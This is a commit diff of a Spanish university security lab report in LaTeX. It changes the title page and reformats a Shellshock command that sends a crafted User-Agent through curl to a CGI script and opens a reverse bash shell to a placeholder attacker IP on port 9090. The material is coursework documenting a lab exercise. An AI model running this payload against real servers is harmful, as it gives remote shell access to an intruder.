

Before and after one commit to piter1902/seguridad_informatica, a LaTeX document (Practica1/memoria/memoria_pr1.tex): two parts of pages 1 and 6 of 6, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Memoria de la practica 1 (creo que acabada)
Cuidado porque igual hay que cambiar mi nombre por el cambio de apellidos.

```diff
--- a/Practica1/memoria/memoria_pr1.tex
+++ b/Practica1/memoria/memoria_pr1.tex
@@ -12,8 +12,8 @@
 \begin{document}
 
 \begin{titlepage}
-\title{{\Huge Práctica 1 - Seguridad Informática}}
-\author{Pedro Tamargo \and Juan José Tambo}
+\title{{\Huge \textbf{Práctica 1 - Seguridad Informática}}}
+\author{Pedro Tamargo Allué (758267) \and Juan José Tambo Tambo (755742)}
 \date{\today}
 \clearpage\maketitle
 \thispagestyle{empty}
@@ -172,7 +173,13 @@ Al ejecutar el comando en la máquina deseada, este se conecta con el proceso \e
 
 El problema de este ataque recae en conseguir ejecutar el comando en la máquina remota cuando no se tiene acceso físico a la misma. Para ello se utiliza el ataque \emph{Shellshock}, mediante el cual se pueden ejecutar comandos de forma remota.
 Para poder realizar el ataque, se utilizará el siguiente comando desde la máquina atacante, mediante el cual se conseguirá establecer un \emph{reverse shell} en la máquina indicada.\\
-\texttt{curl -v -A "() { echo "HOLA"; }; echo Content-type: text/plain; echo; /bin/bash -i > /dev/tcp/\_{}IP\_{}MAQUINA\_{}ATACANTE/9090 0<\&1 2>\&1;" http://\_{}IP\_{}MAQUINA\_{}VICTIMA/cgi-bin/myprog.cgi}
+
+\begin{lstlisting}
+curl -v \
+-A "() { echo "HOLA"; }; echo Content-type: text/plain; echo; \
+/bin/bash -i > /dev/tcp/_IP_MAQUINA_ATACANTE/9090 0<&1 2>&1;" \
+http://_IP_MAQUINA_VICTIMA/cgi-bin/myprog.cg
+\end{lstlisting}
 
 
 
```
Also changed, not shown: Practica1/memoria/memoria_pr1.pdf, Practica1/memoria/memoria_pr1.tex (1 more changed lines).
